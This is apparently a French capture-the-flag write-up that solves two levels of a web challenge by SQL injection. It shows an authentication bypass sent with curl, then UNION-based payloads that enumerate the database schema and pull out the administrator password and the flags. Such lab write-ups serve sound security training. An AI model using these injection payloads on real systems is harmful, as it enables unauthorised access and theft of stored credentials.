 # Comme dans un Moul'1

> Ici les exemples sont exploités avec curl, mais bien entendu cela fonctionne tout aussi bien directement avec le formulaire dans le navigateur  

## Partie 1

Ici, on est face à un formulaire.  
Le premier réflexe pourrait être de tester si les inputs sont protégés contre les injections :

```
curl -s "https://moulin.ctf.ineat.fr/" --data "username=' OR 1=1 LIMIT 1#&password=" | grep INEAT
```

refexe somme toute plutôt efficace je dois dire : `<h1 class="corb-flag">INEAT{c0nn3xi0n_v4lid33}</h1>`

## Partie 2

> Cette méthode n'est certes pas la plus simple, mais elle a le mérite de retracer un peu plus en détail un schéma d'exploitation d'injection SQL ;)

On est ici face au même site que le précédent. Il faut donc trouver une méthode pour exploiter ça un peu plus en profondeur.
On va alors essayer de partir à la recherche des colonnes de notre bdd :

```
curl -s "https://moulin.ctf.ineat.fr/" --data "username=' UNION SELECT 1 #&password=" | grep INEAT
```

Parfait, notre champ username est injectable : `Bienvenue 1!`.
Nous savons également que la requête renvoie une colonne.
On peut maintenant commencer à retrouver la structure de notre bdd au travers de ce champ :

```text
' UNION SELECT user() #
 <-- level2@172.27.0.3 --> 
 
' UNION SELECT database() #
<-- level2 -->

' UNION SELECT table_schema FROM information_schema.tables WHERE table_schema != 'information_schema' #
<-- level 2 -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'username' #
<-- users -->

' UNION SELECT username FROM users WHERE 1=1 LIMIT 1 #
<-- administrator -->

' UNION SELECT password FROM users WHERE username = 'administrator' #
<-- Bienvenue this is a very complexe password! So proud :)! -->
```

Rien de très intéresant de ce côté, on va donc chercher une table qui contiendrait un champ "flag"

```text
' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 0,1#
<-- INNODB_SYS_TABLES -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 1,2#
<-- INNODB_SYS_TABLESPACES -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 2,3#
<-- my_secret_table -->
```

Ah, on tient quelque chose d'intéressant (qu'on aurait pu avoir un peu plus tôt si on avait été un peu patient, j'en conviens..)  
On peut vérifier que notre table a bien une colonne "flag" pour en avoir le coeur net :

 ```
' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'my_secret_table' #
<-- flag -->
```

On peut donc récupérer le flag
```
' UNION SELECT flag FROM my_secret_table #
<-- INEAT{U_f1nD_th3_s3cret_T4ble} -->
```
